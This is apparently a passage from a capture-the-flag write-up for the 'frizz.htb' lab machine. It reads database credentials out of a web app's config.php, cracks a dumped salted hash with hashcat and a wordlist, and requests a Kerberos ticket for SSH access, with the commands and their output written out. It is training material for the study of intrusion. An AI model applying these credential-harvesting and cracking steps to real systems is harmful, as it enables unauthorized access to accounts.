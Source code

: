 ```
d-----         1/20/2023   6:04 AM                src                                                           
d-----         1/20/2023   6:04 AM                themes                                                        
d-----        10/29/2024   7:28 AM                uploads                                                       
d-----         1/20/2023   6:04 AM                vendor                                                        
-a----         1/20/2023   6:04 AM            634 .htaccess                                                     
-a----         1/20/2023   6:04 AM         197078 CHANGEDB.php                                                  
-a----         1/20/2023   6:04 AM         103023 CHANGELOG.txt                                                 
-a----         1/20/2023   6:04 AM           2972 composer.json                                                 
-a----         1/20/2023   6:04 AM         294353 composer.lock                                                 
-a----        10/11/2024   8:15 PM           1307 config.php                                                    
...
```

mysql credentials on config.php.
```php
$databaseServer = 'localhost';
$databaseUsername = 'MrGibbonsDB';
$databasePassword = 'MisterGibbs!Parrot!?1';
$databaseName = 'gibbon';
```

Dumping the db gives us a hash and salt for `f.frizzle`.
`067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03:/aACFhikmNopqrRTVz2489`

We can bruteforce with hashcat:
```bash
hashcat ./hash.txt ~/wordlists/rockyou.txt -a 0 -m 1410
# 067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03:/aACFhikmNopqrRTVz2489:Jenni_Luvs_Magic23
```

`f.frizzle`:`Jenni_Luvs_Magic23`

The box uses ssh instead of winrm. So it is kinda tricky.
First you get a ticket:
```bash
ntpx getTGT.py frizz.htb/f.frizzle:Jenni_Luvs_Magic23 -dc-ip frizzdc.frizz.htb
```

Then you update /etc/krb5.conf.
```conf
FRIZZ.HTB = {
  kdc = frizzdc.frizz.htb
  admin_server = frizzdc.frizz.htb
  default_domain = frizz.htb
}

[domain_realm]
.frizz.htb = FRIZZ.HTB
frizz.htb = FRIZZ.HTB
```
